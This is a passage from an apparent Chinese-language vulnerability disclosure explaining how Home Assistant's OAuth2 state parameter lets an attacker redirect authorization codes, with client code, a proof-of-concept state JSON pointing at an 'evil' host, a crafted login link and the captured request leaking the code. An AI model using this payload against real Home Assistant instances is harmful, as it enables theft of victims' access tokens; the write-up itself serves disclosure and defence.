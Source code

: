 ## 八、授权码泄露:CVE-2023-41896/GHSL-2023-163

在 OAuth2 认证请求中，除了 client\_id 和 redirect\_uri 参数外，还可以包括一个 state 参数。根据 Home Assistant 的官方文档，这个参数用于存储用户正在尝试认证的实例的 URL。用户的实例 URL 随后会被添加到重定向的 URI 中。

在 Home Assistant 中，state 参数不是一个不透明、随机的值，这与其在 OAuth2 流程中的建议不符。相反，它是一个包含 hassUrl 和 clientId 的 Base64 编码的 JSON 对象。

在 Web 登录流程中，客户端 JavaScript 代码会使用 hassUrl 的值来发起一个 POST 请求。这个请求包含了从 Home Assistant 获得的有效的授权码。

为了解析 URL 中的查询字符串并解码认证状态，你可以查看源代码。这段代码还会使用 fetchToken 函数向由 hassUrl 属性指定的服务器发送一个 POST 请求。

```plain
const query = parseQuery(location.search.substr(1));
// Check if we got redirected here from authorize page
if ("auth_callback" in query) {
  // Restore state
  const state = decodeOAuthState(query.state);
  data = await fetchToken(state.hassUrl, state.clientId, query.code);
  if (options.saveTokens) {
    options.saveTokens(data);
  }
}
```

如果一个攻击者诱骗一个受害者通过一个恶意的链接登录 Home Assistant，他们可能会窃取授权码。这将使他们能够使用这些授权码从 Home Assistant 获取有效的刷新和访问令牌。

### Poc

攻击者可以使用他们自己的恶意服务器作为 state json 中的 hassUrl 属性：

一旦这个 json 对象被 base64 编码，它就可以用来构造一个恶意的链接：

```plain
{
  "hassUrl":"http://homeassistant.local.evil:8123/",
  "clientId":"http://homeassistant.local:8123/"
}
```

一旦 state json 对象被 base64 编码为示例字符串，它可以用来构造一个恶意的链接。

```plain
http://homeassistant.local:8123/auth/authorize?response_type=code&redirect_uri=http%3A%2F%2Fhomeassistant.local%3A8123%2F%3Fauth_callback%3D
```

请注意，在这种情况下，尽管 host、client\_id 和 redirect\_uri 的值都是合法且符合用户的预期，但这仍然可能构成安全风险。

受害者会看到一个登录表单，上面附带消息：你即将给予[http://homeassistant.local:8123/对你的Home](http://homeassistant.local:8123/%E5%AF%B9%E4%BD%A0%E7%9A%84Home) Assistant 实例的访问权限。请注意，这是用户的服务器实例，所以没有任何可疑之处。

一旦用户登录，他们获得的授权码就会被发送回攻击者。

```plain
POST /auth/token HTTP/1.1
Host: homeassistant.local.evil:8123
Content-Length: [..]
User-Agent: Mozilla/5.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOdg7W5BtZriAqa3J
Accept: */*
Origin: http://homeassistant.local:8123/
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

------WebKitFormBoundaryOdg7W5BtZriAqa3J
```